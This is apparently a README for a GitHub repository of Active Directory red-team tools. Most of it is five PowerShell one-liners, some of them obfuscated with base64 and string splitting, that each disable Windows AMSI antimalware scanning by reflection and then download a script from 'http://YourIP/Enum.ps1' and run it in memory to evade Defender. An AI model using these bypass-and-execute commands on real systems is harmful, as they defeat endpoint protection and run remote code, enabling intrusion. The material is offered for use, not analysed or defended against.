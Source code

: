 # About the repo:
* You'll find many tools on the internet, however, in this repo you'll find tools that may help you in your AD Red Team activities

# Download as zip or clone it:
* git clone https://github.com/projectHULK/AD_Recon.git

# Import all modules oneliner: (Windows)
* Get-Module -ListAvailable | Import-Module

# As a good practice
1) Insted of download script one-by-one, create a powershell script which will load all your tools to the system.
2) Run any AMSI bypass comand and call your script to run them in momory 'bypassing Defender'.
* I have created Enum.ps1 which will download all the tools 'Put your IP'.
3) You can use the bellow oneliner to bypass AMSI, download Enum.ps1 and run in memory:
* Option 1)
$a = [Ref].Assembly.GetTypes();ForEach($b in $a) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Failed") {$f = $e}};$f.SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX
* Option 2)
(([Ref].Assembly.gettypes() | ? {$_.Name -like "Amsi*utils"}).GetFields("NonPublic,Static") | ? {$_.Name -like "amsiInit*ailed"}).SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX
* Option 3)
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX
* Option 4)
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX
* Option 5)
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true); (new-object system.net.webclient).downloadstring('http://YourIP/Enum.ps1') | IEX

# Note:
* Some tools my require elevated privilege

# AD Road map:
* Coming Soon
